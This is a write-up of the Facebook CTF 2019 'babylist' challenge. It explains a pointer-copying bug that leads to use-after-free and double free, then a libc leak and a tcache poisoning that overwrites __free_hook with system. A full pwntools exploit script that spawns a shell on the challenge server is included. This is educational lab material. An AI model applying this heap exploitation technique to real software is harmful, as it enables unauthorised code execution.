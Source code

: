 # Facebook CTF 2019 - babylist

This challenge is c++ binary.

```
$$$$$$$$$$$$$$$$$$$$$$$$$$
Welcome to babylist!
$$$$$$$$$$$$$$$$$$$$$$$$$$

1. Create a list
2. Add element to list
3. View element in list
4. Duplicate a list
5. Remove a list
6. Exit
>
```
It looks like heap challenge. List structure is as follows.

```
typedef list {
  char name[0x70];
  int *start; /* address of the first element in array */
  int *last;  /* address of the last element in array */
  int *limit; /* end of allocated array */
} List;
```

start, last, limit pointers points address of memory that is dynamically allocated.
When we add a element to list, the element added to array and last pointer is increased by 4(size of element).

When we add first element to list, the start pointer is initialized via `operator new(4)`. and internally(in binary)
it can store only one element. Each time the array is full, existing array is freed(deleted) and new array is allocated.
The size of array gets doubled each time.

Third menu 'View' has nothing special. Duplicating list literally copies a list. But an interesting point is that it
doesn't allocate new array and copies, instead copies start, last, limit pointer. So it can happen that
1. Make an list named A. Add elements until array in the list gets full.
2. Duplicate that list. Let's call duplicated list B.
3. Add a element in A. Then A gets newly allocated array(start, last, limit).
4. Array that B has is freed memory.

Also if we add a element in B, array that B is again freed(double free). We can use this vulnerability later in exploit.
To leak the address of libc,
1. Make a list. and add elements until the size of array becomes large enough(larger than 0x80, which is fastbin chunk).
2. Add elements so that array gets full.
3. Duplicate the list 8 times.
4. Add a elements in each list except the the last list.
 - The same array is freed 8 times.
 - Binary uses glibc 2.27 which implements tcache. With first 7 frees, tcache gets saturated.
 - The last eighth free puts the chunk into unsorted bin.
5. View the value of first, second elements in 9th list.
 - Array of 9th list has is pointer of freed chunk in unsorted bin.
 - first, second bytes are the address of somewhere in main_arena
 - We can get base address of libc.

After libc leak, the exploit scenario is as follows.
1. Make a list and add elements until the size of array becomes 0x91(including chunk header)
 - The reason we do this step is 0x91 is the same as the size of 'list' structure.
2. Duplicate this list 2 times.
3. Add a element in two lists.
 - Array is double freed. (tcache -> p -> p)
4. Make a list with its name value of address of __free_hook. (tcache -> p)
5. Make a list with its name value of "/bin/sh\x00". (tcache -> __free_hook)
 - Array of third list is '/bin/sh\x00'
 - Let's call this array A.
6. Make a list with its name value of address of system
 - __free_hook is allocated.
7. Add a element in 3rd list.
 - A is freed. That is, free(A)
 - __free_hook is overwritten with system and A has "/bin/sh"
 - free(A) is system("/bin/sh");
8. Get shelL!

```
from pwn import *

bin = ELF('./babylist')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]


def create_list(name):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('name for list:\n', name)
    conn.recvuntil('List has been created!\n')


def add_element(idx, num):
    conn.sendlineafter('> ', str(2))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter number to add:\n', str(num))
    conn.recvuntil('Number successfully added to list!\n')


def view_element(list_idx, idx):
    conn.sendlineafter('> ', str(3))
    conn.sendlineafter('Enter index of list:\n', str(list_idx))
    conn.sendlineafter('Enter index into list:\n', str(idx))


def duplicate_list(idx, name):
    conn.sendlineafter('> ', str(4))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter name for new list:\n', name)
    conn.recvuntil('List has been duplicated!\n')


def remove_list(idx):
    conn.sendlineafter('> ', str(5))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.recvuntil('List has been deleted!\n')


if LOCAL:
    conn = process('./babylist', env={'LD_PRELOAD': './libc-2.27.so'})
    gdb.attach(conn)
else:
    conn = remote('challenges.fbctf.com', 1343)

# Stage 1: Libc Leak
create_list('AAAAAAAA')

for i in range(64):
    log.info(str(i))
    add_element(0, 1)

for i in range(8):
    duplicate_list(0, 'BBBBBBBB')

for i in range(8):
    add_element(i, 1)

view_element(8, 0)

conn.recvuntil('BBBBBBBB[0] = ')
lower = conn.recvuntil('\n')[:-1]
if lower.startswith('-'):
    lower = ~int(lower[1:]) + 1
else:
    lower = int(lower)

view_element(8, 1)
conn.recvuntil('BBBBBBBB[1] = ')
higher = int(conn.recvuntil('\n')[:-1]) + 1

libc_addr = (higher << 32) + lower - 0x3ebca0
log.info('Libc_addr: ' + hex(libc_addr))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset[1]))

# Stage 2
for i in range(9):
    remove_list(i)

create_list('CCCCCCCC')  # 0

for i in range(32):
    add_element(0, 1)

duplicate_list(0, 'DDDDDDDD')  # 1
duplicate_list(0, 'DDDDDDDD')  # 2

add_element(0, 1)
add_element(1, 1)

create_list(p64(libc_addr + libc.symbols['__free_hook']))
create_list('/bin/sh\x00')
create_list(p64(libc_addr + libc.symbols['system']))

conn.sendlineafter('> ', str(2))
conn.sendlineafter('Enter index of list:\n', str(2))
conn.sendlineafter('Enter number to add:\n', str(1))

conn.interactive()
```